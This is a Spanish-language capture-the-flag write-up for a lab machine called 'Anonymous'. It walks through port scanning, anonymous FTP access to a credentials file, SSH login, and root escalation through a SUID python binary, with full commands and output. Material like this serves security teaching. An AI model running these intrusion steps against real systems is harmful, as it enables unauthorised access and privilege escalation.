 ```yaml
---
layout: post
title: Anonymous
subtitle: Plataforma MiraSoyRoot Dificultad Fácil
cover-img: /assets/img/anonymous.png
thumbnail-img: /assets/img/anonymous.png
share-img: /assets/img/anonymous.png
author: Elmili72
---
```


![anonymous](https://github.com/user-attachments/assets/ecfe6e10-485f-405f-8ccf-39b4be6a2d50)

## Escaneo general de puertos

Como siempre, para empezar realizamos un escaneo general de los puertos que pudieran estar abiertos en nuestra máquina.

```bash
❯ sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
Host is up, received arp-response (0.0000020s latency).
Scanned at 2025-06-23 16:51:45 CEST for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## Escaneo específico de puertos

Conocidos los puertos abiertos podemos realizar un escaneo específico para conocer los servicios y las versiones. En este caso los puertos 21 (FTP) y 22 (SSH). Cabe destacar que nos permite el inicio de sesión con  el usuario *anonymous*, por lo que podemos entrar al servicio y exfiltrar información relevante.

```bash
❯ nmap -sCV -p21,22 172.17.0.2 -oN target
Host is up (0.000045s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              38 Feb 18 09:02 credenciales.txt
|_drwxrwxrwx    2 0        0            4096 Feb 18 09:02 uploads [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 bb:2c:f0:4d:f3:f1:66:9b:24:ac:ea:3a:b7:68:18:7c (ECDSA)
|_  256 be:1b:55:29:51:a5:94:3e:b0:fc:d9:b7:98:9d:06:c5 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento Servicio FTP

En la enumeración del FTP tenemos un archivo interesante que es *crendenciales.txt*. Que para nuestra suerte nos da crenciales como el propio nombre indica.

```bash
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
Name (172.17.0.2:elmili): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||23955|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              38 Feb 18 09:02 credenciales.txt
drwxrwxrwx    2 0        0            4096 Feb 18 09:02 uploads
226 Directory send OK.
ftp> get credenciales.txt
local: credenciales.txt remote: credenciales.txt
229 Entering Extended Passive Mode (|||48922|)
150 Opening BINARY mode data connection for credenciales.txt (38 bytes).
100% |*******************************************************************************************************************************|    38      537.81 KiB/s    00:00 ETA
226 Transfer complete.
38 bytes received in 00:00 (65.79 KiB/s)
```

```bash
❯ cat credenciales.txt
Usuario: yados
Contraseña: croissant
```

## Exploitación

Al no haber otra vulnerabilidad que nos permita lograr la intrusión probamos las credenciales directamente contra el SSH.
### Intrusión

Y estamos dentro del usuario *yados*.

```bash
❯ ssh yados@172.17.0.2
yados@172.17.0.2\'s password: 
Linux 7dec485919af 6.12.25-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.25-1kali1 (2025-04-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
yados@7dec485919af:~$ id
uid=1000(yados) gid=1000(yados) groups=1000(yados)
yados@7dec485919af:~$ whoami
yados
```

## Post-Explotación

Trar ver el archivo /etc/passwd y confirmar que no hay más usuarios para hacer pivoting pasamos directamente a la mejor parte de todo CTF. La escalada de privilegios :D.
### Escalada de Privilegios

No parece que exista la función *sudo*, por lo que directamente buscamos archivos con permisos *SUID*. Y vemos el binario */usr/local/bin/python*, así que vamos a explotarlo un poquito.

```bash
yados@7dec485919af:~$ find / -perm -4000 2>/dev/null
/usr/sbin/exim4
/usr/local/bin/python
/usr/bin/mount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/su
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helpe
```

También vemos el binario sudo pero al no tener permisos de sudoers no podemos hacer nada con él a simple vista, por lo que continuamos con el binario de python.

```bash
yados@7dec485919af:~$ /usr/bin/sudo /bin/bash -p
[sudo] password for yados: 
yados is not in the sudoers file.
This incident has been reported to the administrator.
```

Para el que no esté familiarizado con este tipo de escalada recomiendo *GTFOBins*, que puede ser nuestro mejor amigo en estos casos. Y conseguimos el usuario *root* y leer el archivo *mirasoyroot.txt*.

```bash
yados@7dec485919af:~$ cd /tmp
yados@7dec485919af:/tmp$ mkdir privesc && cd privesc
yados@7dec485919af:/tmp/privesc$ /usr/local/bin/python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
bash-5.2# whoami
root
bash-5.2# id
uid=1000(yados) gid=1000(yados) euid=0(root) groups=1000(yados)
bash-5.2# cd /root
bash-5.2# cat mirasoyroot.txt 
felicidades hacker lo has conseguido, si eres de los 3 primeros en completar la maquina hablamé por Instagram y te pondré en el podio
```

¡Espero que os haya gustado y os haya servido de ayuda! ¡Hasta el próximo writeup!
